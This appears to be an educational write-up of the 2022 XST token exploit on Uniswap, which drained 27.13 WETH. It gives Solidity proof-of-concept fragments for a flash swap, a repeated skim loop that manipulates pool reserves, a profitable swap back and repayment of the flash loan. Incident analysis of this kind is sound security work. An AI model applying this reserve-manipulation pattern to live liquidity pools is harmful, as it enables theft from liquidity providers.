 # XST

## What's XST?
XST is the platform's native cryptocurrency. Using XST, transaction validators acquire their rights to process transactions. These rights are tokenized as NFTs, movable assets known as StealthNodes, each of which is assigned a slot in a block validation schedule.

## Amount stolen
27.13 WETH

2022-08-09


## Vulnerability
Skimming logic

## Analysis

The XST token on Uniswap was exploited through a combination of swapping, skimming, and manipulating the liquidity pool. The attacker initiated a flash swap, performed skimming operations to claim tokens, and manipulated prices by selling tokens back to the pool. This led to a significant profit in WETH for the attacker.

# Proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap

![XTS Image](../images/XTS/label.drawio.png)



```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```

![XTS Image](../images/XTS/before.drawio.png)




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```

Finally, swap the WETH tokens for XST tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price within this flash swap.


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)

Now we repeat the previous steps with new values:

### Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)



![XTS Image](../images/XTS/after.drawio.png)


```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```




### Profit

Since we initiated the flash swap with 78 WETH, and at the end of the flash swap had 105 WETH, we were able to send the profit back to our wallet


![XTS Image](../images/XTS/profit.drawio.png)



```
  Attacker WETH profit before exploit: 0.000000000000000000
  Attacker WETH profit after exploit: 27.130181656842120567
```


## Conclusion

Because the XST tokens balance in the pool was increasing, while the reserves stayed the same, it caused the second swap to be manipulated in a way that led to extreme profits for the attacker.



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)

